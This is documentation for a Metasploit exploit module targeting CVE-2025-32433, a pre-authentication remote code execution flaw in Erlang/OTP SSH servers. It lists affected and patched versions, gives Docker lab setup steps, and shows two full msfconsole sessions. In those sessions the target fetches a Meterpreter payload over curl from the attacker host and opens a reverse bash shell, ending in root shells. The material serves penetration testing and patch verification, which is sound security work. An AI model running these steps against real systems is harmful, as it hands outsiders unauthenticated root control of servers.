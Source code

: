 ## Vulnerable Application

Erlang/OTP is a set of libraries for the Erlang programming language.

Prior to versions OTP-27.3.3, OTP-26.2.5.11, and OTP-25.3.2.20, a SSH server may allow an attacker
to perform unauthenticated remote code execution (RCE).

By exploiting a flaw in SSH protocol message handling, a malicious actor could gain unauthorized access
to affected systems and execute arbitrary commands without valid credentials. This issue is patched in
versions OTP-27.3.3, OTP-26.2.5.11, and OTP-25.3.2.20.

A temporary workaround involves disabling the SSH server or to prevent access via firewall rules.

### Introduction

This module exploits CVE-2025-32433, a pre-authentication vulnerability in Erlang-based SSH servers
that allows remote command execution. By sending crafted SSH packets, it executes a Metasploit
payload to establish a reverse shell on the target system.

The exploit leverages a flaw in the SSH protocol handling to execute commands via the Erlang `os:cmd`
function without requiring authentication.

## Testing

Execute the following commands:

```bash
git clone https://github.com/ProDefense/CVE-2025-32433
cd CVE-2025-32433
docker build -t cve-ssh:latest .
docker run -d -p 2222:2222 cve-ssh:latest
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/linux/ssh/ssh_erlangotp_rce`
3. Do: `set RHOSTS [IP]`
5. Do: `run`

## Scenarios

### Target 0

Use the linux commands CMD.

```
msf6 exploit(linux/ssh/ssh_erlangotp_rce) > options 

Module options (exploit/linux/ssh/ssh_erlangotp_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.1.16     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   2222             yes       The target port

Payload options (cmd/linux/https/x64/meterpreter/reverse_tcp):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FETCH_CHECK_CERT  false            yes       Check SSL certificate
   FETCH_COMMAND     CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE      false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS    false            yes       Attempt to run payload without touching disk, Linux ≥3.17 only
   FETCH_SRVHOST                      no        Local IP to use for serving payload
   FETCH_SRVPORT     8080             yes       Local port to use for serving payload
   FETCH_URIPATH                      no        Local URI to use for serving payload
   LHOST             192.168.1.16     yes       The listen address (an interface may be specified)
   LPORT             4444             yes       The listen port

   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      PBAcwEBEszFT     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces

Exploit target:

   Id  Name
   --  ----
   0   Linux Command


View the full module info with the info, or info -d command.

msf6 exploit(linux/ssh/ssh_erlangotp_rce) > run
[*] Started reverse TCP handler on 192.168.1.16:4444 
[*] Starting exploit for CVE-2025-32433
[*] Connecting to SSH server...
[*] Sending SSH banner...
[+] Received banner: SSH-2.0-Erlang/5.1.4.7
[*] Sending SSH_MSG_KEXINIT...
[*] Sending SSH_MSG_CHANNEL_OPEN...
[*] Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] Payload sent successfully
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 6 opened (192.168.1.16:4444 -> 172.17.0.2:41536) at 2025-04-18 23:38:52 +0400

meterpreter > 
```

### Target 1

Use the unix commands CMD.

```
msf6 exploit(linux/ssh/ssh_erlangotp_rce) > options 

Module options (exploit/linux/ssh/ssh_erlangotp_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.1.16     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   2222             yes       The target port

Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.16     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   1   Unix Command


View the full module info with the info, or info -d command.

msf6 exploit(linux/ssh/ssh_erlangotp_rce) > run
[*] Started reverse TCP handler on 192.168.1.16:4444 
[*] Starting exploit for CVE-2025-32433
[*] Connecting to SSH server...
[*] Sending SSH banner...
[+] Received banner: SSH-2.0-Erlang/5.1.4.7
[*] Sending SSH_MSG_KEXINIT...
[*] Sending SSH_MSG_CHANNEL_OPEN...
[*] Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] Payload sent successfully
[*] Command shell session 7 opened (192.168.1.16:4444 -> 172.17.0.2:50092) at 2025-04-18 23:53:55 +0400

whoami
root
```

## References

1. <https://x.com/Horizon3Attack/status/1912945580902334793>
2. <https://platformsecurity.com/blog/CVE-2025-32433-poc>
3. <https://github.com/ProDefense/CVE-2025-32433>
